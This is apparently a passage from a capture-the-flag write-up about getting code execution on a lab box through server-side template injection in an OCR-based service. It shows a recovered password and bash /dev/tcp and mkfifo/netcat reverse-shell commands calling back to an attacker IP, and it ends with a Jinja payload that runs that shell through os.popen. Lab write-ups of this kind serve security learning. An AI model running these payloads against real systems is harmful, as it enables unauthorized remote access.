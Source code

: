 ![htmlentity](cmdexec1-htmentity.png "htmlentity")

So, From_HTML_Entity() was the recipe, awesome.  Did another replace in the python script and got to fix all the stuff above that wasn't working so far as far as cat certain files in longer paths, etc.. 

So password is:  `_5#y2L"F4Q8z\n\xec]/`
But, this is not svc_acc password, or root password via ssh..

Now lets try the rev shell:
`
bash -i >& /dev/tcp/10.10.14.47/4464 0>&1
`
Finallly found a payload that worked !@$!@$!@$!@$!@%!@%! 
`
rm A; mkfifo A; cat A | /bin/sh -i 2>&1 | nc 10.10.14.47 4464 > A

CMD (or 'exit')> rm A; mkfifo A; cat A | /bin/sh -i 2>&1 | nc 10.10.14.47 4464 > A
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('rm A; mkfifo A; cat A | /bin/sh -i 2>&1 | nc 10.10.14.47 4464 > A').read() }}
<html><head><title>502 Bad Gateway</title></head><body bgcolor="white"><center><h1>502 Bad Gateway</h1></center><hr><center>nginx/1.14.0 (Ubuntu)</center></body></html>
`
So a working payload from a screenshot would be:
`
tesseractSux {{ joiner.__init__.__globals__.os.popen('rm A; mkfifo A; cat A | /bin/sh -i 2>&1 | nc 10.10.14.47 4464 > A').read() }}
`
Left a fun little note in /tmp

![note](cmdexec2-note.png "note")
